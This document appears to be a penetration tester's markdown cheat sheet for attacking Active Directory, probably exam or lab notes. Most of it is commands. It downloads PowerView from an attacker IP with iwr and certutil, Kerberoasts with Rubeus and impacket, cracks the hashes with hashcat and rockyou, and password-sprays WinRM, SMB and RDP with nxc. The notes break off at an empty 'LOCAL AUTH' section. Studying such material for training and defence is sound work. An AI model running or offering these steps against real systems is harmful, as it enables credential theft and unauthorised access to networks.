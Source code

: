 ### KERBEROASTING CHECK 
To obtain a clear list of SPNs, we can pipe the output into **select** and choose the **samaccountname** and **serviceprincipalname** attributes
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

To resolve **web04.corp.com** with **nslookup**:
```
nslookup.exe web04.corp.com
```


## Transferring Files
Transferring powerview in PS
```
iwr http://192.168.45.233/powerview.ps1 -OutFile powerview.ps1
```
Transferring powerview in cmd
```
certutil -f -urlcache -split http://192.168.45.233/powerview.ps1  powerview.ps1
```


### KERBEROASTING

We know we can try kerberoasting if we run this command and find a SPN of any user except krbtgt
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
USING WINDOWS
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
 USING KALI
```
 impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
```
crack the hashes using
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```


### ADDITIONAL INFORMATION
```
hostname
```

```
echo %COMPUTERNAME%
``` 
```
echo %USERDOMAIN%
```

## PASSWORD SPRAYING
#### NXC
```
nxc winrm 10.10.117.152-154 -u usernames -p passwords  
```
```
nxc smb 10.10.117.152-154 -u usernames -p passwords  
```
```
nxc rdp 10.10.117.152-154 -u usernames -p passwords  
```
#### LOCAL AUTH
```
```